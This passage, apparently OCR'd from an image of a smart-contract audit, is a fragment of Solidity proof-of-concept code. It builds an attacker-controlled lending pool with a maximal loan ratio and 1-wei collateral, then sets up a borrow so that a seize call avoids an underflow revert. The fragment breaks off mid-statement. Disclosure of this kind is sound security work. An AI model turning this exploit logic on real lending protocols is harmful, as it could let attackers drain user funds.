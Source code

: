 ```solidity
            loanToken: address(loanToken),
            collateralToken: address(collateralToken),
            minLoanSize: 1,
            poolBalance: loanAfter.debt,
            maxLoanRatio: type(uint256).max,
            auctionLength: 1, // does not matter but lower is easier is to attack
            interestRate: 1, // does not matter but lower is and easier is to attack
            outstandingLoans: 0
        }));
        
        
        // Attacker needs to borrow only what's needed to make `pool.outstandingLoans == loan.debt`
        // In this way the `seize` operation will not revert for underflow
        // because of how pool is configured he can just provide 1 wei of collateral.
        // That's made possible by having `pool.maxLoanRatio = type(uint256).max`
        // By auto-borrowing he's not losing the amount of `lendingToken` that have been provided by creating the pool
        Borrow[] memory borrows = new Borrow[](1);
        borrows[0] = Borrow({
            poolId: attackerPoolId,
